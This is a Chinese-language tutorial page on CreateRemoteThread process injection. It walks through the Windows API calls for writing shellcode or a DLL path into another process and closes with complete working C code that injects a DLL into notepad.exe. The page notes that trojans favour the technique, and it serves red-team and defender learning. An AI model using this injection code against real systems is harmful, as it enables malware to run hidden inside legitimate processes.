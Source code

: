 ```yaml
---
description: 经典代码&dll注入
---
```


# CreateRemoteThread

## 远程线程注入

远程线程注入是指一个进程在另一个进程中创建线程的技术，通常用于注入dll或shellcode，两者执行方式会有一些简单的差异但是原理相同，这是一种简单且稳定的经典注入方式，被很多病毒木马所青睐，此外也存在更新式的注入方式。

## 注入流程

1. 打开被注入进程的句柄
2. 通过句柄向被注入进程申请可写可执行空间
3. 往申请的空间内写入必要数据（dllpath&shellcode）
4. 通过windows提供的api创建线程

![](../.gitbook/assets/remote.gif)

## 编程实现

### 0.使用函数原型

```text
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```

```text
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

```text
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

```text
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

### 1.打开被注入进程的句柄

```text
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, <pid>);
```

### 2.通过句柄向被注入进程申请可写可执行空间

```text
LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

### 3.往申请的空间内写入必要数据（dll&shellcode）

#### 3.1 shellcode

```text
char shellcode[]="XXXXXX";
WriteProcessMemory(hProcess, lpBaseAddress, shellcode, sizeof(shellcode), NULL);
```

#### 3.2 DLL注入

```text
char path[]="c:/test/test.dll";
WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
```

### 4.通过windows提供的api创建线程

#### 4.1 shellcode

```text
CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)lpBaseAddress, 0, 0, 0);
```

#### 4.2 DLL注入

我们都知道在进程载入DLL的时候会调用DLLMAIN函数,同时由于ASLR\(基址随机化\)的缘故，在操作系统启动时，DLL的加载地址不尽相同,但由于部分系统DLL要求在系统启动后必须固定，所以我们通过GetProcAddress函数获取操作系统加载DLL的函数。

也就是说,虽然进程不同但是部分系统dll在不同进程中的地址是相同的，那么我们可以通过获取本地进程的相关函数作为远程线程函数的启动参数,并把申请的空间指向加载DLL保存路径的字符串，就可以远程加载DLL。

* 不同进程的kernel32.dll

![](../.gitbook/assets/image%20%2872%29.png)

![](../.gitbook/assets/image%20%282%29.png)



```text
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
```

![](../.gitbook/assets/image%20%2829%29.png)

## 优化与使用

* 根据进程名查找PID

```text
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
```

* 完整代码

```text
#include <stdio.h>
#include <Windows.h>
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
char path[] = "C:\\Users\\Black Sheep\\source\\repos\\CreateRemoteThread\\x64\\Release\\TestDll.dll";

int main()
{
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, GetProcessIdByName((LPCTSTR)"notepad.exe"));
    
    LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
    return 0;
}

```

* github:[https://github.com/idiotc4t/CreateRemoteThread](https://github.com/idiotc4t/CreateRemoteThread)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/" %}



